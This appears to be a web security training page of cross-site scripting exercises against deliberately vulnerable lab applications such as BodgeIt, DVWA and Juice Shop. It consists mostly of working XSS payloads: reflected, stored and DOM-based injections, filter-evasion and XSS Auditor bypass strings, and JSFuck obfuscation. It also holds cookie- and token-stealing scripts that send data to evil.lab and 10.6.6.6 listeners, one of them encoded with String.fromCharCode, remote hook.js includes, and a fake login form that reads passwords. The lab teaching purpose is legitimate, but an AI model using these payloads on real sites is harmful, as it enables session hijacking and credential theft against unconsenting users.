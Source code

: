 # A3 Cross-Site Scripting (XSS)


## Refelcted

Got `ERR_BLOCKED_BY_XSS_AUDITOR` in your Chrome ? Try the `Iceweasel` in the VM ;]
Or just set `X-XSS-Protection: 0` in burp via `Proxy > Options > Match and Replace`
Or run Chrome/Chromium with `--disable-xss-auditor`

### BodgeIt store

`http://bodgeit.lab/bodgeit/search.jsp?q=%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E`

`http://bodgeit.lab/bodgeit/search.jsp?q=<sCrIpt src='http://evil.lab:3000/hook.js'></ScRipT>`


### DVWA
Try it on `http://dvwa.lab/dvwa/vulnerabilities/xss_r`

GET `http://dvwa.lab/dvwa/vulnerabilities/xss_r/?name=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E#`

```
<script>alert("XSS");</script>
<img src=x onerror=alert(document.cookie)>
```

## Stored


[BodgeIt / registration](http://bodgeit.lab/bodgeit/register.jsp)

`hacker@citadelo.com<scriPt>alert("XSS");</scRipt>`

trigger it 

`http://bodgeit.lab/bodgeit/admin.jsp`


[BodgeIt / Contact](http://bodgeit.lab/bodgeit/contact.jsp)

`<sCriPt>alert(document.cookie);</scRipT>`


priklad

Start a simple HTTP server as a listener

`python -m SimpleHTTPServer 8888`

```
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://evil.lab:8888/?'+document.cookie+'&'+location.search+'"/>';</script><textarea cols="0" rows="0" style="display:none">
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://evil.lab:8888/?'+document.cookie+'"/>';</script><textarea cols="0" rows="0">
```

```
document.getElementById('header').innerHTML+='<img src="http://evil.lab:8888/?'+document.cookie+'&token='+location.search.split('token=')[1].split('&')[0]+'"/>';
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper</textarea><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,104,101,97,100,101,114,39,41,46,105,110,110,101,114,72,84,77,76,43,61,39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,54,46,54,46,54,47,63,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,39,38,116,111,107,101,110,61,39,43,108,111,99,97,116,105,111,110,46,115,101,97,114,99,104,46,115,112,108,105,116,40,39,116,111,107,101,110,61,39,41,91,49,93,46,115,112,108,105,116,40,39,38,39,41,91,48,93,43,39,34,47,62,39,59));</script><textarea cols="0" rows="0">
```

`</textarea><script src=http://evil.lab:3000/hook.js><textarea>`



## DOM based

### Juice Shop

Try this in search:

```
<iframe src="javascript:alert(document.domain)">
```

### AwesomeShop

`http://awesome.lab/oc/index.php?route=common/home#default=Slovak`

`http://awesome.lab/oc/index.php?route=common/home#default=%3Cscript%3Ealert%281%29%3C/script%3E`


#### XSS demo in my Firefox (password steal)

```
http://awesome.lab/oc/index.php?route=product/search&search=<h1>Hacked</h1>
http://awesome.lab/oc/index.php?route=product/search&search=<script>alert(1)</script>
http://awesome.lab/oc/index.php?route=product/search&search=<form id=x method=post><input type=text name=email><input type=password name=password></form><script>setTimeout(function(){alert(x[0].value%2b/ : /.source%2bx[1].value)},100);</script>
```

#### XSS demo in my Chrome (XSS Auditor bypass)

```
http://awesome.lab/oc/index.php?route=product/search&search=<xxx class=fancybox data-fancybox-start=1 data-fancybox-type=html data-fancybox-href="%26lt;script>alert(2);%26lt;/script>">
http://awesome.lab/oc/index.php?route=product/search&search=<form id=x method=post><input type=text name=email><input type=password name=password></form><xxx class=fancybox data-fancybox-start=1 data-fancybox-type=html data-fancybox-href="%26lt;script>setTimeout(function(){alert(x[0].value%2b/ : /.source%2bx[1].value)},3000);%26lt;/script>">
```    


## Slides

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<svg/onload=alert(’XSS')>

```


JSFuck

```javascript
<script>
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
</script>

```


